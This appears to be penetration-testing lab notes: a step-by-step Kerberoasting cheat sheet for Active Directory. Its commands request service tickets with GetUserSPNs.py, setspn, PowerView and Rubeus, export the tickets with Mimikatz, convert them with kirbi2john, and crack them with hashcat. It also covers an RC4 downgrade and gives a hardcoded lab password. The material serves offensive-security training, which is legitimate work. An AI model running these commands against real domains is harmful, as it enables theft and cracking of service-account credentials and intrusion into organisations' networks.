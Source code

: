 # Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.


# From Linux

## GetUserSPNs.py

### Listing SPN Accounts with GetUserSPNs.py
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### Requesting all TGS Tickets
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

### Requesting a Single TGS ticket
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

# From Windows

## Semi manual way.

### Enumerating SPNs with setspn.exe

```powershell
setspn.exe -Q */*
```

### Targeting a Single User
Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz. Let's try this by targeting a single user

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

### Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T HTB.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```powershell
.\mimikatz

mimikatz: base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz: kerberos::list /export 

```

### Preparing the Base64 Blob for Cracking

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```bash
echo "<base64 blob>" |  tr -d \\n | tee encoded_file
```

### Placing the Output into a File as .kirbi

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py
```bash
kirbi2john sqldev.kirbi | tee crack_file
```

### Modifiying crack_file for Hashcat

**Note**: the newer version of kirbi2john doesn't require that.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### Using PowerView to Extract TGS Tickets

### Enumerate spn users
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\sqldev_tgs.csv -NoTypeInformation
```

### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### Way number 2

```powershell
$Password = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
e$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $Password)

Invoke-UserImpersonation -Credential $Cred
Invoke-Kerberoast
```


## Using Rubeus

Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat

```bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```
Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use. 
```

# Double Hop Issue
https://posts.slayerlabs.com/double-hop/